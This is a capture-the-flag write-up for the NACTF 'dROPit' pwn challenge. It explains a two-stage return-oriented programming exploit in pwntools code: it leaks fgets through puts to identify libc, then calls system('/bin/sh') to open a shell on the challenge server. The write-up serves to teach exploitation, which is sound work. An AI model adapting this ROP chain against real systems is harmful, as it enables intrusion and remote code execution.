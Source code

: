 ## NACTF: dROPit [pwn]
![](dropit_desc.png)

#### This was a ROP challenge as hinted by the capitalized letters in the challenge name. Simply, we have a buffer overflow vulnerability again to which we will need to leak libc addresses in order to determine the libc version used and pop a shell. I have done a lot of similar writeups to this one which can be found on the website, so I won't go into detail with this (only a rundown of what I did).

## Controlling RIP, ROPgadgets
#### To find which offset I can use to control the instruction pointer, I played around the binary with pwndbg. After confirming the offset at which we can control it, the next plan is to find ROP gadgets that we will use for the leak.
```
$ ROPgadgets --binary ./dropit > gadgets.txt
```
#### Redirect the output into a text file for better view. The gadgets we are interested in are `pop rdi` (for placing arguments into the rdi register) and `ret` (for stack alignment). For this challenge, I decided to leak fgets and puts, provided the leaked values into `libc.rip` (a more updated version compared to libc.blukat.me imo, since the latter didn't find the libc version for the input I provided). Code below is the stage 1 exploit.
```python
from pwn import *

#:
p = remote('challenges.ctfd.io', 30261)
#p = process('./dropit')
binary = ELF('dropit', checksec = False)

#:
ret = 0x40101a
pop_rdi = 0x401203

exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(binary.got['fgets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

print(p.recvuntil('?\n'))
p.sendline(exploit)
leak = int(hex(u64(p.recvuntil('\n').ljust(8, '\x00')))[3:], 16)
print('[*] fgets leak: {}'.format(hex(leak)))
```

## Popping a shell
#### We have identified the libc version that the remote server is running, next step is to download a copy of the libc to use for our second stage. We simply calculate the libc base by subtracting the value leaked from the server with the offset of fgets in the libc. Afterwhich, we can simply perform a call to system providing /bin/sh as its argument. The call to exit isn't really necessary, just a force of habit.
```python
#: Stage 2
libc = ELF('libc6_2.32-0ubuntu3_amd64.so', checksec = False)
libc.address = leak - libc.symbols['fgets']
print('[*] libc base: {}'.format(hex(libc.address)))

exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])
exploit += p64(libc.symbols['exit'])

p.sendline(exploit)
p.interactive()
```
![](dropit_shell.png)
